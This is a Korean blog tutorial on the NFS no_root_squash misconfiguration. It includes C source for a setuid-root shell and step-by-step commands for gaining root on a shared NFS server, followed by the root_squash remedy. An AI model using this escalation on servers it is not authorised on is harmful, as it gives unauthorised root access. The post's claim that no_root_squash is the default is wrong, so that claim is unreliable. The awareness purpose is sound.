 ```yaml
---
title: "NFS 서버 no_root_squash 세팅 취약점"
category: Security
toc: true
toc_label: "이 페이지 목차"
---
```


NFS 서버의 no_root_squash 설정 취약점을 이용하여 NFS 서버의 root shell을 얻는 방법을 보여준다.

## NFS 서버 설정
NFS 서버의 설정 파일인 `/etc/exports` 파일에서는 NFS export 할 경로와 옵션을 설정하는데, 이 중에서 보안 관련해서 다음 2가지 중요한 설정이 있다.
- `root_squash`: 클라이언트 호스트의 uid 0에서의 request를 서버의 uid 65534(-2)로 매핑함으로써, 지정된 호스트의 슈퍼 유저의 액세스를 거부하는 보안 기능이다. (uid 65534는 유저 nobody 임)
- `no_root_squash`: uid 0으로부터의 request를 매핑하지 않는다. 즉, client의 root는 server의 root와 같은 권한을 가진다. 이것은 디폴트로 켜져 있으므로 이것을 그대로 사용하면 보안 위험이 있다.

위와 같이 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정이 디폴트이므로, 만약에 여러 명이서 함께 사용하는 NFS 서버인 경우에는 명시적으로 <mark style='background-color: #dcffe4'>root_squash</mark> 설정을 하지 않으면, NFS 서버의 root shell을 얻을 수 있는 심각한 보안 위험이 있는데, 해킹 방법을 아래에서 예시하겠다.

> 물론 여기서는 NFS 서버에 해당 로그인 계정이 있어야 하는데, NFS 서버를 운영하는 경우는 사실상 이 경우일 것이다.

## Host에서 root shell 얻기 테스트
1. NFS 서버에서 작업하기 전에, 먼저 본인이 관리하는 서버에서 사전 테스트를 해 보자.  
   서버에서 아래와 같이 root_shell.c 파일을 작성한다.
   ```c
   #include <fcntl.h>
   #include <stdlib.h>
   #include <stdio.h>
   #include <sys/stat.h>
   #include <unistd.h>

   int main(int argc, char *argv[])
   {
       setuid(0);
       setgid(0);

       close(0);
       open("/dev/tty", O_RDWR);

       system("/bin/sh");
       return 0;
   }
   ```
1. 아래와 같이 빌드한다.
   ```sh
   $ gcc -o root_shell root_shell.c
   ```
1. 아래와 같이 해당 프로그램에 대하여 실행시 root 권한을 부여한다. (즉, **suid**(set-user-identifier) 모드 설정)
   ```sh 
   $ sudo chown root:root root_shell
   $ sudo chmod +s root_shell
   ```
   그러면 ls 명령으로 확인시 다음과 같은 속성을 확인할 수 있다. (아래에서 NFS 서버를 사용하는 경우에도 이 상태를 만드는 것이 목표임)
   ```sh
   $ ls -l root_shell
   -rwsr-sr-x 1 root     root     8480  11월 14 17:43 root_shell
   ```
1. 이제 아래와 같이 실행해서 테스트 해보면, root 권한이 얻어졌음을 확인할 수 있다.
   ```sh
   $ ./root_shell
   sh-4.4# whoami
   root
   ```

위에서 내 서버에서의 root 권한을 획득하였다.  
이제 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정의 보안 취약점을 이용하여 NFS 클라이언트에서 **suid**를 설정하고, 결과로 NFS 서버의 root 권한을 획득해 보자.

## NFS 서버 확인
NFS 서버에서 아래와 NFS export 옵션을 확인해 본다.
```sh
$ cat /etc/exports
```
위 출력 결과에서 만약에 옵션 내용에 <mark style='background-color: #ffdce0'>no_root_squash</mark>가 있거나, <mark style='background-color: #dcffe4'>root_squash</mark> 옵션이 없으면 공격 대상이다. 이 경우 아래와 같은 방법으로 root shell을 얻을 수 있다.

## no_root_squash 세팅시 root shell 얻기
1. 위의 root_shell.c 파일을 NFS 서버의 본인 계정으로 복사한 후, NFS 서버에서 마찬가지로 빌드한다.
   ```sh
   $ gcc -o root_shell root_shell.c
   ```
   빌드된 실행 파일을 NFS 디렉토리로 복사한다.
1. Target 디바이스에서 NFS 디렉토리를 마운트 한 후, 마운트 된 디렉토리로 이동한다.  
   Target 디바이스는 나에게 root 권한이 있다. 또, NFS 서버의 <mark style='background-color: #ffdce0'>no_root_squash</mark> 설정 덕분에, 아래와 같이 root_shell 프로그램의 사용자를 root로 변경하고, **suid**(set-user-identifier) 모드를 설정할 수 있다.
   ```sh
   $ sudo chown root:root root_shell
   $ sudo chmod +s root_shell
   ```
1. 이제 이 파일을 NFS 서버에서 확인해 보면 아래와 같이 사용자 및 모드가 바뀌어 있음을 확인할 수 있다.
   ```sh
   $ ls -l
   -rwsr-sr-x 1 root     root     8480  11월 14 17:50 root_shell
   ```
1. 이제 NFS 서버에서 이 파일을 실행하면 마찬가지로 root shell을 얻을 수 있다.
   ```sh
   $ ./root_shell
   sh-4.4# whoami
   root
   ```

## 올바른 NFS 서버 설정
따라서 여러 명이서 함께 사용하는 NFS 서버인 경우에는 `/etc/exports` 파일에서 명시적으로 <mark style='background-color: #dcffe4'>root_squash</mark> 설정을 해야 한다.  
<br>
참고로 이렇게 설정을 하면 NFS 클라이언트에서 root 권한으로 write가 안되므로, NFS 디렉토리에 root 권한으로 core dump 파일이 생성이 되지 않는다.  
이 경우에 NFS 디렉토리에 core dump 파일이 생성되게 하려면 다음 방법 중의 하나를 사용할 수 있겠다.
1. Target 디바이스에서 아래 예와 같이 core dump 파일이 외부 USB 저장 장치에 생성되도록 core path를 설정한다.
   ```sh
   $ sudo echo "/mnt/usb/core" > /proc/sys/kernel/core_pattern
   ```
1. NFS 서버의 마운트 디렉토리에서 아래와 같이 root 권한의 core 파일을 생성해 놓는다. (단, 관리자만 가능)
   ```sh
   $ sudo touch core
   $ sudo chmod 666 core
   ```

## 맺음말
위와 같이 NFS 서버는 설정에 따라 중대한 보안 위협이 있을 수 있다. 그런데 일부 사내 개발 서버들이 이런 위험한 NFS 설정 상태로 되어 있어서😨, 그 위험성을 알리고자 간단히 포스팅한다.
